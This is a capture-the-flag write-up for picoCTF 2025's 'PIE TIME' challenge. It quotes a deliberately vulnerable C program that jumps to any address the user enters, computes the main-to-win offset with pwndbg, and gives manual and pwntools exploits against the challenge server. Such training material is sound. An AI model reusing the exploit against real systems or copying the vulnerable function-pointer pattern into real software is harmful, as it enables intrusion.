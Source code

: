 ```yaml
---
title: PIE TIME
parent: Easy
grand_parent: Pwn
great_grand_parent: PicoCTF
nav_order: 3
layout: default
---
```


# PIE TIME - PicoCTF 2025

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** PIE, Offset Calculation, pwntools, pwndbg

---

## Challenge Description

> Can you try to get the flag? Beware we have PIE!
>
> Files provided:
> - `vuln` (binary)
> - `vuln.c` (source code)
> - Remote instance: `nc rescued-float.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   Can you figure out what changed between the address you found locally and in the server output?
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- PIE (Position Independent Executable) is enabled

> PIE, or Position Independent Executable, randomizes the base address of the binary at runtime, meaning absolute addresses change every run. This prevents us from hardcoding the address of win(). However, offsets between functions remain constant because they are relative to the PIE base.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### Key Observations

- The program directly prints the address of `main()` at runtime
- The program allows arbitrary function pointer execution by letting us input any address to call
- PIE randomizes base addresses, but internal offsets remain constant
- The `win()` function reads and prints the flag if executed

---

## Static Binary Analysis

We analyze the binary with pwndbg to find the static offset between main() and win():

```sh
$ pwndbg ./vuln           
[snip...]
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000000133d <+0>:     endbr64
[snip...]
pwndbg> disassemble win
Dump of assembler code for function win:
   0x00000000000012a7 <+0>:     endbr64
[snip...]
```

### Offset Calculation

```
$ python3
>>> main_addr = 0x133d  
>>> win_addr  = 0x12a7  
>>> offset = main_addr - win_addr
>>> print(offset)
0x96
```

**The key realization is that this offset remains fixed regardless of PIE randomization.**

---

## Exploitation

### Plan

1. Leak the runtime address of main() (given).
2. Subtract 0x96 to calculate the runtime address of win().
3. Input this address and trigger execution

### Manual Exploitation

```
$ nc rescued-float.picoctf.net <port>

Address of main: 0x613514f6433d
Enter the address to jump to, ex => 0x12345: 0x613514f642a7
Your input: 613514f642a7
You won!
picoCTF{<redacted>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'rescued-float.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# Parse leaked address of main
leak_line = conn.recvline().decode().strip()
main_addr = int(leak_line.split(": ")[1], 16)

# Offset from static analysis
offset = 0x96
win_addr = main_addr - offset

# Send calculated win address
conn.sendline(hex(win_addr))

# Receive flag
conn.recvuntil(b"You won!\n")
print(conn.recvall().decode())
```

---

## Key Takeaways
- PIE randomizes binary base addresses but not relative offsets
- Leaking function addresses enables reliable exploitation via offset calculation
- pwndbg are essential tools for static binary analysis
